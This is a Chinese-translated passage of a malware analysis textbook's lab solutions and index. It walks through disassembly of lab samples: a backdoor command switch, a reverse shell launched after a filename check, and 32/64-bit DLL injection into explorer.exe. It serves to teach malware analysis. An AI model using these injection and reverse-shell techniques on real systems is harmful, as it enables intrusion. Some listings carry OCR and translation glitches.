00402528 ja short loc_40257D ; 默认 0040252A jmp ds:off_4025C8[eax*4] ; switch 跳转 *列表 20-14L: maybe_poll 函数中的 switch 语句* 用于 switch 决策的值存储在 [esi+4] 中。该值随后存储在 EAX 中，并从它减去 0x61。如果该值不低于五，则不会执行任何 switch 跳转。这确保了该值在 0x61 和 0x66（代表 ASCII 字符 *a* 到 *f*）之间。

0x61 小于的值用作 switch 表的偏移量。IDA Pro 已经识别并标记了 switch 表。

**722**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们点击 off_4025C8，这带我们到六个需要分析的可能位置。我们将它们标记为 case_1 到 case_6，并逐个分析它们：



case_1 调用 delete 操作符，然后立即返回而不实际做任何事情。我们将此情况重命名为 case_doNothing。



case_2 调用 atoi 将字符串解析为数字，然后在返回之前调用 sleep 函数。我们将它重命名为 case_sleep。



case_3 进行了一些字符串解析，然后调用 CreateProcess。我们将它重命名为 case_ExecuteCommand。



case_4 调用了 CreateFile，并将从命令和控制服务器接收到的 HTTP 响应写入磁盘。我们将它重命名为 case_downloadFile。



case_5 也调用了 CreateFile，但它使用 HTTP POST 命令将文件中的数据上传到远程服务器。我们将它重命名为 case_uploadFile。



case_6 调用了 GetComputerName、GetUserName、GetVersionEx 和 GetDefaultLCID，这些函数共同对受害者的机器进行一次调查，并将结果发送回命令和控制服务器。

总体而言，我们有一个后门程序，它读取一个配置文件，该文件确定命令和控制服务器，向命令和控制服务器发送信标，并根据命令和控制服务器的响应实现几个不同的功能。

**实验 21-1 解答**

***简短答案***

1\.

当您不带任何参数运行程序时，它会立即退出。

2\.

主函数位于 0x00000001400010C0。您可以通过寻找接受整数和两个指针作为参数的函数调用来找到对 main 的调用。

3\.

字符串 ocl.exe 存储在栈上。

4\.

要使此程序在不更改可执行文件名的情况下运行其有效载荷，您可以修补位于 0x0000000140001213 的跳转指令，使其变为 NOP 指令。

5.

可执行文件名正在通过 0x0000000140001205 处的 strncmp 调用与字符串 jzm.exe 进行比较。

6.

位于 0x00000001400013C8 的函数接受一个参数，该参数包含连接到远程主机的套接字。

7.

调用 CreateProcess 需要 10 个参数。我们从 IDA Pro 列表中无法得知，因为我们无法区分存储在堆栈上的事物和用于函数调用的事物，但在 MSDN 中该函数被记录为始终需要 10 个参数。

**2 1**

实验室解决方案

**723**

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

当我们尝试运行此程序以执行动态分析时，它立即退出，因此我们打开程序并尝试找到主方法。（如果您有 IDA Pro 的最新版本，您不需要这样做；如果您有旧版本，您可能需要找到主方法。）

我们从 0x0000000140001750 开始分析，这是由 PE 头中指定的入口点，如列表 21-1L 所示。

0000000140001750 sub rsp, 28h

0000000140001754 call sub_140002FE4 

0000000140001759 add rsp, 28h

000000014000175D jmp sub_1400015D8 

*列表 21-1L：Lab21-01.exe 的入口点*

我们知道主方法接受三个参数：argc、argv 和 envp。此外，我们知道 argc 将是一个 32 位值，而 argv 和 envp 将是 64 位值。因为处的函数调用不接受任何参数，所以我们知道它不是主方法。我们快速检查该函数，并看到它只调用从其他 DLL 导入的函数，因此我们知道对 main 的调用必须在处的跳转指令之后。

我们跟随跳转并向下滚动以寻找接受三个参数的函数。我们传递了许多不带参数的函数调用，最终找到了主方法的调用，如列表 21-2L 所示。此调用接受三个参数。第一个参数在处是一个 32 位值，代表 int，接下来的两个参数在和处是 64 位值，代表指针。

00000001400016F3 mov r8, cs:qword_14000B468 

00000001400016FA mov cs:qword_14000B470, r8

0000000140001701 mov rdx, cs:qword_14000B458 

0000000140001708 mov ecx, cs:dword_14000B454 

000000014000170E call sub_1400010C0

*列表 21-2L：调用 Lab21-01.exe 的主方法*

现在，我们可以继续到主函数。在主函数的早期，我们看到大量数据被移动到堆栈上，包括列表 21-3L 中显示的数据。

0000000140001150 mov byte ptr [rbp+250h+var_160+0Ch], 0

0000000140001157 mov [rbp+250h+var_170], 2E6C636Fh 0000000140001161 mov [rbp+250h+var_16C], 657865h *列表 21-3L：堆栈上被 IDA Pro 未识别的 ASCII 字符串*

你应该立即注意到被移动到栈上的数字代表 ASCII 字符。值 0x2e 是一个点（.），以 3、4、5 和 6 开头的十六进制值主要是字母。右键单击 **724**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

将数字设置为 IDA Pro 显示哪些字符被表示，并在每一行上按 R 键以更改显示。在更改显示，使 ASCII 字符被 IDA Pro 正确标注后，代码应类似于列表 21-4L。

0000000140001150 mov byte ptr [rbp+250h+var_160+0Ch], 0

0000000140001157 mov [rbp+250h+var_170], '.lco'

0000000140001161 mov [rbp+250h+var_16C], 'exe'

*列表 21-4L：由 IDA Pro 正确标注 ASCII 字符的列表 21-3L* 这个视图告诉我们代码正在栈上存储字符串 ocl.exe。

（记住，x86 和 x64 汇编都是小端序，所以当 ASCII 数据被表示为 32 位数字时，字符会被反转。）这三个 mov 指令一起将代表 *ocl.exe* 的字节存储在栈上。

回想一下，*Lab09-02.exe* 除非可执行文件名为 *ocl.exe*，否则无法正常运行。在这个时候，我们尝试重命名文件为 *ocl.exe* 并运行它，但这不起作用，因此我们需要继续在 IDA Pro 中分析代码。

在我们继续分析的过程中，我们看到代码调用了 strrchr，就像在实验 9-2 中一样，以获取不带前导目录路径的可执行文件名。然后我们看到一个部分显示在列表 21-5L 中的编码函数。

00000001400011B8 mov eax, 4EC4EC4Fh

00000001400011BD sub cl, 61h

00000001400011C0 movsx ecx, cl

00000001400011C3 imul ecx, ecx

00000001400011C6 sub ecx, 5

00000001400011C9 imul ecx

00000001400011CB sar edx, 3

00000001400011CE mov eax, edx

00000001400011D0 shr eax, 1Fh

00000001400011D3 add edx, eax

00000001400011D5 imul edx, 1Ah

00000001400011D8 sub ecx, edx

*列表 21-5L：一个编码函数*

这个编码函数分析起来非常繁琐，所以我们将其记录下来，并继续查看对编码字符串的处理。我们向下滚动一点，看到一个对 strncmp 的调用，如列表 21-6L 所示。

00000001400011F4 lea rdx, [r11+1] ; char *

00000001400011F8 lea rcx, [rbp+250h+var_170] ; char *

00000001400011FF mov r8d, 104h ; size_t 0000000140001205 call strncmp

000000014000120A test eax, eax

000000014000120C jz short loc_140001218 

000000014000120E

000000014000120E loc_14000120E: ; CODE XREF: main+16Aj **2 1**

实验解决方案

**725**

[www.it-ebooks.info](http://www.it-ebooks.info/)

000000014000120E mov eax, 1

0000000140001213 jmp loc_1400013D7 

*列表 21-6L：比较文件名与编码字符串并采取两种不同代码路径之一的代码*

向上滚动以查看正在比较哪两个字符串，我们发现第一个字符串是正在执行的恶意软件的名称，第二个是编码字符串。根据 strncmp 的返回值，我们或者在处进行跳转，继续执行更有趣的代码，或者在处进行跳转，提前退出程序。

为了动态分析程序，我们需要让它继续运行而不会提前退出。我们可以修补处的 jmp 指令，以强制代码即使在程序名称不正确的情况下也继续执行。不幸的是，OllyDbg 不支持 64 位可执行文件，因此我们需要使用十六进制编辑器手动编辑字节。

而不是修补代码，我们可以尝试确定正确的字符串并重命名我们的进程，就像我们在实验 9-2 中做的那样。

为了确定恶意软件正在搜索的字符串，我们可以使用动态分析来获取可执行文件应该被命名的编码值。为此，我们使用 WinDbg（再次，因为 OllyDbg 不支持 64 位可执行文件）。我们在 WinDbg 中打开程序并设置对 strncmp 调用的断点，如图 21-1L 所示。

*图 21-1L：使用 WinDbg 查看实验 21-1 中正在比较的字符串*

WinDbg 的输出有时可能有点冗长，所以我们将关注发出的命令。我们无法使用 bp strncmp 设置断点，因为 WinDbg 不知道 strncmp 的位置。然而，IDA Pro 使用签名来查找 strncmp，并且从列表 21-6L 中我们知道 strncmp 的调用在 0000000140001205。如图 21-1L 所示，在处，我们使用 u 指令验证 0000000140001205 处的指令，然后设置对**726**的断点。

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在处修改该位置并发出处的 g（go）命令。当遇到断点时，我们输入**da rcx**以获取处的字符串。在处，我们看到正在比较的字符串是 jzm.exe。

现在我们知道了如何让程序运行，我们可以继续分析它。我们按顺序看到以下导入调用：WSAStartup、WSASocket、gethostbyname、htons 和 connect。在不花费太多精力分析实际代码的情况下，我们可以从函数调用中看出程序正在连接到远程套接字。然后我们看到另一个必须分析的函数调用，如图 21-7L 所示。

00000001400013BD mov rcx, rbx 

00000001400013C0 movdqa oword ptr [rbp+250h+var_160], xmm0

00000001400013C8 call sub_140001000

*列表 21-7L：一个参数数量不明确的 64 位函数调用* 在处，RBX 寄存器被移动到 RCX。我们无法确定这仅仅是正常的寄存器移动，还是这是一个函数参数。回顾一下 RBX 中存储的内容，我们发现它存储了由 WSASocket 返回的套接字。一旦我们开始分析 0x0000000140001000 处的函数，我们看到该值被用作 CreateProcessA 的参数。

CreateProcessA 的调用显示在列表 21-8L 中。

0000000140001025 mov [rsp+0E8h+hHandle], rax 000000014000102A mov [rsp+0E8h+var_90], rax

000000014000102F mov [rsp+0E8h+var_88], rax

0000000140001034 lea rax, [rsp+0E8h+hHandle]

0000000140001039 xor r9d, r9d ; lpThreadAttributes 000000014000103C xor r8d, r8d ; lpProcessAttributes 000000014000103F mov [rsp+0E8h+var_A0], rax

0000000140001044 lea rax, [rsp+0E8h+var_78]

0000000140001049 xor ecx, ecx ; lpApplicationName 000000014000104B mov [rsp+0E8h+var_A8], rax 

0000000140001050 xor eax, eax

0000000140001052 mov [rsp+0E8h+var_78], 68h

000000014000105A mov [rsp+0E8h+var_B0], rax

000000014000105F mov [rsp+0E8h+var_B8], rax

0000000140001064 mov [rsp+0E8h+var_C0], eax

0000000140001068 mov [rsp+0E8h+var_C8], 1

0000000140001070 mov [rsp+0E8h+var_3C], 100h 000000014000107B mov [rsp+0E8h+var_28], rbx 

0000000140001083 mov [rsp+0E8h+var_18], rbx 

000000014000108B mov [rsp+0E8h+var_20], rbx 

0000000140001093 call cs:CreateProcessA

*列表 21-8L：对 CreateProcessA 的 64 位调用*

堆栈中的套接字存储在 RBX 中，这是列表中未显示的代码。所有参数都移动到堆栈上而不是推送到堆栈上，这使得函数调用比 32 位版本复杂得多。

**2 1**

实验解决方案

**727**

[www.it-ebooks.info](http://www.it-ebooks.info/)

大多数移动到堆栈上的操作代表 CreateProcessA 的参数，但也有一些不是。例如，在处的移动是将 LPSTARTUPINFO 作为参数传递给 CreateProcessA。然而，STARTUPINFO 结构本身存储在堆栈上，从 var_78 开始。在、和处看到的 mov 指令是将值移动到 STARTUPINFO 结构中，该结构恰好存储在堆栈上，而不是 CreateProcessA 的单独参数。

由于函数参数和其他堆栈活动的交织，仅通过查看函数调用很难确定传递给函数的参数数量。然而，由于 CreateProcessA 有文档记录，我们知道它恰好需要 10 个参数。

在这一点上，我们已经到达了代码的末尾。我们了解到恶意软件检查程序是否为*jzm.exe*，如果是，它将创建一个反向 shell 到远程计算机以在机器上启用远程访问。

**实验 21-2 解决方案**

***简短答案***

1.

恶意软件包含资源部分 X64、X64DLL 和 X86。每个资源都包含一个嵌入的 PE 文件。

2.

*Lab21-02.exe*是为 32 位系统编译的。这可以在 PE

标头中特性字段的 IMAGE_FILE_32BIT_MACHINE 标志被设置。

3.

恶意软件尝试解析并调用 IsWow64Process 以确定它是否在 x64 系统上运行。

4.

在 x86 机器上，恶意软件将 X86 资源丢弃到磁盘并将它注入到*explorer.exe*中。在 x64 机器上，恶意软件从 X64 和 X64DLL 资源部分丢弃两个文件到磁盘并以 64 位进程启动可执行文件。

5.

在 x86 系统上，恶意软件将*Lab21-02.dll*放入 Windows 系统目录，这通常是*C:\Windows\System32\*。

6.

在 x64 系统上，恶意软件将*Lab21-02x.dll*和*Lab21-02x.exe*放入 Windows 系统目录，但由于这是一个在 WOW64 中运行的 32 位进程，目录是*C:\Windows\SysWOW64\*。

7.

在 x64 系统上，恶意软件启动*Lab21-02x.exe*，这是一个 64 位进程。您可以在 PE 头中看到这一点，其中特性字段设置了 IMAGE_FILE_64BIT_MACHINE 标志。

8.

在 x64 和 x86 系统上，恶意软件都会对*explorer.exe*进行 DLL 注入。在 x64 系统上，它放下并运行一个 64 位二进制文件，以向 64 位运行的*explorer.exe*注入 64 位 DLL。在 x86 系统上，它向 32 位运行的*explorer.exe*注入 32 位 DLL。

**728**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

因为这个恶意软件与*Lab12-01.exe*相同，只是增加了一个 x64

component，分析的好起点是 Lab 12-1。让我们首先检查这个二进制文件中找到的新字符串，如下所示：IsWow64Process

Lab21-02x.dll

X64DLL

X64

X86

Lab21-02x.exe

Lab21-02.dll

我们看到几个字符串引用了 x64，以及字符串 IsWow64Process，这是一个 API 调用，可以告诉恶意软件它是否在 64 位机器上以 32 位进程运行。我们还看到三个可疑的文件名：Lab21-02.dll、Lab21-02x.dll 和 Lab21-02x.exe。

接下来，我们在 PEview 中查看恶意软件，如图 21-2L 所示。

*图 21-2L：PEview 显示三个不同的资源部分* 我们看到三个不同的资源部分：X64、X64DLL 和 X86。每个部分似乎都包含一个嵌入的 PE 格式文件，正如 MZ

header 和 DOS stub。如果我们对这个恶意软件在 x86 和 x64 系统上进行快速动态分析，它们都会产生像 Lab 12-1\一样的令人烦恼的弹出窗口。

接下来，我们将分析转移到 IDA Pro，以了解恶意软件如何使用 IsWow64Process。我们看到*Lab21-02.exe*的代码与*Lab12-01.exe*相同，动态解析遍历进程列表的 API 函数。在解析了这些函数之后，代码发生了偏离，并尝试动态解析 IsWow64Process 函数，如列表 21-9L 所示。

004012F2 push offset aIswow64process ; "IsWow64Process"

004012F7 push offset ModuleName ; "kernel32"

004012FC mov [ebp+var_10], 0

00401303 call ebx ; GetModuleHandleA 

00401305 push eax ; hModule

00401306 call edi ; GetProcAddress 

00401308 mov myIsWow64Process, eax

**2 1**

实验室解决方案

**729**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040130D test eax, eax 

0040130F jz short loc_401322

00401311 lea edx, [ebp+var_10]

00401314 push edx

00401315 call ds:GetCurrentProcess

0040131B push eax

0040131C call myIsWow64Process 

*列表 21-9L：动态解析 IsWow64Process 并调用它* 在  处，恶意软件获取 *kernel32.dll* 的句柄，并在  处调用 GetProcAddress，以尝试解析 IsWow64Process。如果成功，它将函数的地址加载到 myIsWow64Process。

测试点  用于确定恶意软件是否找到了 IsWow64Process 函数，该函数仅在较新的操作系统上可用。恶意软件首先进行此解析检查，以确保与不支持 IsWow64Process 的旧系统兼容。接下来，恶意软件使用 GetCurrentProcess 获取自己的 PID，然后调用  处的 IsWow64Process，如果进程是在 WOW64 下运行的 32 位应用程序，var_10 将返回 true。

根据 IsWow64Process 检查的结果，恶意软件有两种代码路径可供选择：x86 和 x64。我们将从 x86 路径开始分析。

**X86 代码路径**

x86 代码路径首先将字符串 Lab21-02.dll 和 X86 传递给 sub_401000\。

根据我们的静态分析，我们可以猜测并重命名此函数为 extractResource，如列表 21-10L 中的  所示。

004013D9 将偏移量 aLab2102_dll 推送；"Lab21-02.dll"

004013DE 将偏移量 aX86 推送；"X86"

004013E3 调用 extractResource ；以前为 sub_401000

*列表 21-10L：使用 X86 参数调用 extractResource* 检查 extractResource 函数，我们发现它实际上将 X86 资源提取到磁盘，并将第二个参数追加到 GetSystemDirectoryA 的结果中，从而将 X86 资源提取到 *C:\Windows\System32\Lab21-02.dll*。

接下来，恶意软件通过调用 sub_401130 设置 SeDebugPrivilege，该调用使用 API 函数 OpenProcessToken、LookupPrivilegeValueA 和 AdjustTokenPrivileges，如“使用 SeDebugPrivilege”页面 246 所述。

然后，恶意软件调用 EnumProcesses 并通过 strnicmp 函数遍历进程列表，寻找名为 explorer.exe 的模块基本名称。

最后，恶意软件使用 VirtualAllocEx 和 CreateRemoteThread 将 *Lab21-02.dll* 注入到 *explorer.exe* 中。这种方法通过 DLL 注入。

注入与 Lab 12-1 相同。比较 *Lab21-02.dll* 和 *Lab12-01.dll* 的 MD5 哈希值，我们发现它们是相同的。因此，我们得出结论，当在 32 位机器上运行时，此恶意软件与 Lab 12-1 的操作相同。我们必须调查 x64 代码路径，以确定此恶意软件在 64 位机器上的操作是否不同。

**730**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**X64 代码路径**

x64 代码路径首先调用 extractResource 函数两次，将 X64 和 X64DLL 资源提取到磁盘，如列表 21-11L 所示。

0040132F 将偏移量 aLab2102x_dll 推送；"Lab21-02x.dll"

00401334 将偏移量 aX64dll 推送；"X64DLL"

00401339 mov eax, edi

0040133B 调用 extractResource

...

0040134D 将偏移量 aLab2102x_exe 推送；"Lab21-02x.exe"

00401352 将偏移量 aX64 推送；"X64"

00401357 mov eax, edi

00401359 调用 extractResource

*列表 21-11L：在 x64 上运行时两个二进制的资源提取*

这两个二进制文件被提取到文件*Lab21-02x.dll*和*Lab21-02x.exe*中，并放置在 GetSystemDirectoryA 返回的目录中。然而，如果我们在一个 64 位系统上动态运行这个恶意软件，我们不会在*C:\Windows\System32*中看到这些二进制文件。因为*Lab21-02.exe*是一个在 64 位机器上运行的 32 位二进制文件，它在 WOW64 下运行。系统目录映射到*C:\Windows\SysWOW64*，这就是我们在 64 位机器上找到这些文件的地方。

接下来，恶意软件使用 ShellExecuteA 在本地机器上启动*Lab21-02x.exe*。查看*Lab21-02x.exe*的 PE 头，我们看到 Characteristics 字段设置了 IMAGE_FILE_64BIT_MACHINE 标志。这告诉我们这个二进制文件是为 64 位进程编译并运行的。

为了使用 IDA Pro 反汇编*Lab21-02x.exe*，我们需要使用 IDA Pro 的 x64 高级版本。当我们反汇编这个文件时，我们看到从高层次来看，它的结构看起来像*Lab21-02.exe*。例如，*Lab21-02x.exe*也是通过动态解析迭代进程列表的 API 函数开始的。*Lab21-02x.exe*在构建字符串时与*Lab21-02.exe*不同，使用了 lstrcpyA 和 lstrcatA，如列表 21-12L 中的和所示。

00000001400011BF lea rdx, String2 ; "C:\\Windows\\SysWOW64\\"

00000001400011C6 lea rcx, [rsp+1168h+**Buffer**] ; lpString1

...

00000001400011D2 call cs:lstrcpyA 

00000001400011D8 lea rdx, aLab2102x_dll ; "Lab21-02x.dll"

00000001400011DF lea rcx, [rsp+1168h+**Buffer**] ; lpString1

00000001400011E4 call cs:lstrcatA 

...

00000001400012CF lea r8, [rsp+1168h+**Buffer**]; lpBuffer 00000001400012D4 mov r9d, 104h ; nSize 00000001400012DA mov rdx, rax ; lpBaseAddress 00000001400012DD mov rcx, rsi ; hProcess 00000001400012E0 mov [rsp+1168h+var_1148], 0

00000001400012E9 call cs:WriteProcessMemory

**2 1**

*列表 21-12L：构建 DLL 路径字符串并将其写入远程进程的解决方案*

**731**

[www.it-ebooks.info](http://www.it-ebooks.info/)

构建的字符串与 DLL 被丢弃到磁盘的位置相匹配：*C:\Windows\SysWOW64\ Lab21-02x.dll*。这个字符串的结果将包含在局部变量 Buffer 中（在列表中用粗体显示）。Buffer 最终通过寄存器 r8（lpBuffer 参数）传递给 WriteProcessMemory 在处，幸运的是 IDA Pro 已经识别并添加了参数的注释，尽管没有 push 指令。

看到 DLL 字符串以这种方式写入内存，随后调用 CreateRemoteThread，这告诉我们这个二进制文件也执行 DLL 注入。我们在字符串列表中找到 explorer.exe 字符串，并跟踪其交叉引用到 0x140001100，如列表 21-13L 中的所示。

00000001400010FA call cs:QueryFullProcessImageNameA 0000000140001100 lea rdx, aExplorer_exe  ; "explorer.exe"

0000000140001107 lea rcx, [rsp+138h+var_118]

000000014000110C call sub_140001368

*列表 21-13L：使用 QueryFullProcessImageNameA 查找 explorer.exe 的代码*

*进程*

这段代码在进程迭代循环中调用，并将 QueryFullProcessImageNameA 的结果与 explorer.exe 一起传递给 sub_140001368\. 通过推理，我们可以得出结论，这是一个 IDA Pro FLIRT 库没有识别出的某种字符串比较函数。

这种恶意软件以与 x86 版本相同的方式运行，通过注入 *explorer.exe*。然而，这个 64 位版本注入到 Explorer 的 64 位版本中。我们在 IDA Pro 的高级版本中打开 *Lab21-02x.dll*，看到它与 *Lab21-02.dll* 相同，但编译为 x64\.

**732**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**I N D E X**

**符号和数字**

管理员权限，用于恶意软件

启动器，254

!（感叹号符号），305

Adobe Reader

-- 操作，112

CVE-2010-0188 严重

% 操作，112

漏洞，424

% 符号，423

中溢出，705

|（管道符号），在 Snort 中，304

ADS（交替数据流）

++ 操作，112

010 编辑器，468

功能，139

32 位应用程序，WOW64 和，448

高级加密标准

32 位旋转加法哈希，418

(AES)，618

64 位恶意软件，441–449

解密，625–626

功能线索，448

*advapi32.dll*，17

实验室，450–451

从中导入，20，480，481

解决方案，723–732

获取句柄，237

广告，弹出，560–561

**A**

AES（高级加密

标准)，618

*A*，在 Windows 函数末尾

解密，625–626

名称，17

Agobot，376

绝对地址，443

空气隔离网络，29

与 OllyDbg 中的相对地址相比，

_alloca_probe 函数，522

184–185

字母编码，shellcode

x86 汇编中的抽象级别，

与解码器，697

66–67

交替数据流（ADS）

接受函数，143，144，454

功能，139

访问令牌，246

ALU（算术逻辑单元），68

准确性，与便捷性相比，304

AMD64 架构，441

活动窗口，记录，239

“英特尔奔腾处理器的分析”

ADD 编码算法，276

支持安全

添加指令，74，349

虚拟机监控器”

AddCodeXref 函数（IDC），342

(Robin 和 Irvine)，373

地址空间，加载可执行文件

AND 逻辑运算符，在 x86

进入另一个进程的，595

架构，75

地址空间布局随机化

反调试，351–366

(ASLR)，184

检查，656

AddressOfNameOrdinals 数组，416

反制技术，660

AddressOfNames 数组，416

实验室，367–368

AdjustTokenPrivileges 函数，246，

解决方案，655–669

247，454，730

[www.it-ebooks.info](http://www.it-ebooks.info/)

反调试，*继续*

实验室，381–382

NTGlobalFlag 标志，659–660

解决方案，670–684

PhantOm 防检查保护，

进程替换，683–684

658，659

调整设置，379–380

ProcessHeap 标志，658–659

VMware 纪念品，370–373

时间检查，665–669

易受攻击的指令，373–379，

GetTickCount 函数，668–669

678–679

与 QueryPerformanceCounter，

无药可救技术，375

667–668

查询 I/O 通信

rdtsc 函数，669

端口，375–377

反汇编，327–349

红药丸反虚拟机技术，

基础，328–329

374–375

打败反汇编算法，

抗病毒程序和内核

329–334

补丁，227

流导向反汇编，

抗病毒扫描，10

331–334

抗病毒签名，扫描对抗，478

线性反汇编，329–331

Anubis, 40

假条件分支，336，645，

ApateDNS，51–52，57，465，483，485

647，653

恶意软件 DNS 请求和，489

实验室，350

APC (异步过程

解决方案，645–655

调用)，263

恶意软件的意识

APC 注入，262–265

调试器，351

AppInit_DLLs，241–242，572

手动修复的代码，648–649

用于持久性，575

隐藏流程控制，340–346

应用程序，访问设备

添加缺失的代码交叉-

对象，206

IDA Pro 中的引用，342

恶意软件中的参数，从 OllyDbg 到

函数指针问题，

调试，532

340–341

算术指令，74–76

滥用结构化异常

算术逻辑单元 (ALU), 68

处理程序，344–346

算术运算

返回指针滥用，342–343

反汇编，112–113

表现的迹象，645–646

在 WinDbg 中，211

技术，334–340

数组，反汇编，127–128

不可能的反汇编，337–340

IDA Pro 中的箭头窗口，90

带常数的跳转指令

*汇编语言的艺术*

条件，336

(Hyde), 68

相同的跳转指令

ASCII 字符串，11

目标，334–335

在堆上加载，724–725

使用 NOP 指令清除指令，

ASLR (地址空间布局

IDA Pro，340

随机化)，184

阻止堆栈帧分析，

ASPack, 398

347–349

汇编代码，用于进程

反虚拟机 (anti-VM) 技术

替换，258

技巧，369–380，500，678

汇编语言，67\. *另见* C 代码

使用字符串查找，679–683

汇编中的结构

在 IDA Pro 中突出显示 anti-VM，

if 语句，113–114

377–378

for 循环，117

对恶意软件分析的影响，

switch 语句，124

673–677

while 循环，118

**734**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

汇编级调试器，与

数据包结构，643

源级，168

初始恶意软件运行请求，

异步过程调用

627–628

(APC)，263

由恶意软件发送，633–634，

AT_INFO 结构，547–548

639–640

AttachThreadInput 函数，454

字符串解码，636

攻击者

响铃驱动程序，214

识别调查活动，299

恶意软件的行为。*参见* 恶意软件

安全在线调查，300–302

行为

Autoruns 工具，140，241，465–466

BeingDebugged 标志，354，657–658

检查，353–354

**B**

伯克利兼容套接字，143–144

BFK DNS 记录器，302

后门，3，121，232–234，479，

BHOs (浏览器辅助对象)，157

519，538

大端模式，70

分析，537–538

二进制数据

CreateProcess 和 Sleep 函数

Base64 编码转换，277

用于，479

静态分析，503–507

避免检测，308–311

二进制文件选项，在 IDA Pro 中，88

HTTP 反向，539

VMware 的二进制翻译，在

实现，524

内核模式，373

表现的迹象，493

bind 函数，143，144，454

读取配置文件，723

BinDiff，466

沙盒和，41

BinNavi，466

操作系统备份镜像，

BitBlaze, 40

系统，30

BitBlt 函数，454

“未知或 32 位可执行文件

黑名单，IP 地址，301

“文件”错误，363

Blink 指针，414

撞击符号 (!)，305

块加密算法，626

基地址

蓝屏，在 Windows 中，158

使用 PEview 查找，545

Bochs (调试器)，467

*kernel32.dll* 的，使用

Bookmarks 插件，在 OllyDbg 中，

汇编代码，415

199–200

Windows 中的 PE 文件，184

*boot.ini* 文件，207–208，226

Base64 密码，277–280，622

蜂窝网络控制器，234

自定义替换密码，280

蜂窝网络，3，234，376

识别和解码，278–280

bp 命令，在 WinDbg 中，211

Base64 编码

分支，在 x86 架构中，80–81

解码，624–625

断点

在 URL 中识别，611

在调试器中，171–175

填充，610，630

条件，175

Python 解码程序

硬件执行，174–175

字符串，289

软件执行，173–174

静态模式，631

延迟，212–213，554

base64_encode 函数，610

硬件与软件，687

基本名，535

内核活动，548

BCDEdit，227

在 OllyDbg 中，188–191，391

指示器，309，611

设置的命令行，199

客户端发起的，311

扫描代码以，357

确定生成，628–629

和自解码，289

目录

**735**

[www.it-ebooks.info](http://www.it-ebooks.info/)

断点，*继续*

面向对象编程，

设置，357

427–432

在栈上设置，690

继承和函数

在 WinDbg 中，211–212

覆盖，432

桥接网络适配器，34

覆载和混淆，

浏览器帮助对象 (BHOs)，157

430–431

强制力 XOR 编码，271–273

this 指针，428–430

bu 命令，在 WinDbg 中，212

对象创建和

bu 命令，在 WinDbg 中，

摧毁，437

213，554

虚拟与非虚拟函数，

缓冲区，恶意软件放置

432–436

中的值，538

凯撒密码，270

缓冲区溢出攻击，421

调用指令，119，333，386，409

Burp Suite，467

并找到 OEP，391–392

Buster 沙盒分析器，473

位置依赖性，408

字节数组初始化，680–681

快速分析，521–522

字节码，67

基于 DWORD 的目标，213，554

指针，396

**C**

调用 *内存位置*，77

OllyDbg 中的调用堆栈跟踪，193

汇编中的 C 代码结构，

回调类型，136

109–132

调用约定，x64 架构

算术操作反汇编，

差异，443–447

112–113

CallNextHookEx 函数，260，261，454

数组反汇编，127–128

函数调用约定，119–121

Canvas 渗透测试工具，380

全局变量与局部变量，110–112

Capture BAT，467

捕获事件

if 语句，113–116

labs，133–134

网络流量，580

解决方案，501–513

停止 procmon，44

链表遍历，130–132

捕获屏幕，函数，615

循环，116–118

CBC (密码块链接)，626

for 循环，116–118

cdecl 调用约定，119–120

while 循环，118

手机恶意软件，88

结构，识别，128–130

中央处理单元 (CPU)

switch 语句，121–126

线程和，149

if 风格，122–123，124

在 x86 架构中，68

跳转表，123–126

CertOpenSystemStore 函数，454

C 编程语言，110

CF (进位) 标志，72

函数指针，340

CFB (密文反馈)，626

主方法和偏移量，在 x86 中

CFF Explorer，467

架构，83–84

cfile.read 命令，293

进程的伪代码

连锁编码算法，277

替换，258

CheckRemoteDebuggerPresent 函数，

标准库，IDA Pro 目录

352，454

命名常量的，102

C++中的子类，432

*《C 程序设计语言》*

父类中的函数，436

(Kernighan and Ritchie), 110

块大小，与熵的依赖

C++分析，427–438

分数，284

labs, 439–440

密文块链 (CBC)，626

解决方案，712–723

密文反馈 (CFB)，626

**736**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

密码，270–280

检查参数，525–529

Base 64，277–280

编码，636

凯撒密码，270

选项分析，535–537

其他编码方案，276–277

从运行恶意软件，493

XOR 密码，271–276

命令行插件，用于 OllyDbg，

*cisvc.exe*

198–199，657–658

原始和木马化代码的 PEview

启动，660

版本，584–585

命令处理，和恶意软件

将 shellcode 写入，583–584

签名，644

类标识符 (CLSIDs)，155

命令外壳，线程输入到，636

和 COM 功能，518

注释

类，在面向对象的代码中，428

在 HTML 中，506

classtype 关键字，在 Snort 中，304

解析命令字符

网络客户端，144–145

来自，509

客户端发起的诱饵，311

发送命令到

客户/服务器框架，组件

恶意软件，507

对象模型作为，154

在 IDA Pro 中，100

CloseHandle 函数，526

公共对象文件格式 (COFF),

CloseServiceHandle 函数，554

IDA Pro 对该的支持，87

云服务，300

Comodo Instant Malware Analysis, 40

Cloudburst，380

比较字符串，在进程

CLSIDs（类标识符），155

探索者，49

和 COM 功能，518

编译，67

*cmd.exe*，544

组件对象模型 (COM),

cmp 指令，80，348，502

154–157，313，626

CoCreateInstance 函数，155–156，

相关函数，518

313，454，518

服务器恶意软件，157

代码

压缩算法，打包器

在内存中，69

和，384

执行校验和，357

compsb 指令，82

在 IDA Pro 中重新定义，103

ComSpec 环境变量，636

理解周围，

条件分支，348

312–313

假，645，647

代码结构，109

流导向反汇编和，333

代码交叉引用，95–96

条件断点，175

代码入口点，解包 stub

在 OllyDbg 中，188，189–190

和，384

条件跳转，80–81，113，

代码库，链接，15

116，354

COFF（公共对象文件格式），

条件，在 x86 架构中，80

IDA Pro 对该的支持，87

配置信息，Windows

CoInitialize 函数，313

注册表，139

CoInitializeEx 函数，154

connect 函数，143，144，313，

IDA Pro 导航带中的颜色，93

454，727

COM（组件对象模型），

Netcat 中的连接模式，52

154–157，313，626

ConnectNamedPipe 函数，455

相关函数，518

控制台程序，

服务器恶意软件，157

IMAGE_SUBSYSTEM_WINDOWS_CUI

命令行

的值，23

二进制分析，94

构造函数，437

恶意软件中的参数，526

Snort 中的内容关键字，304

索引

**737**

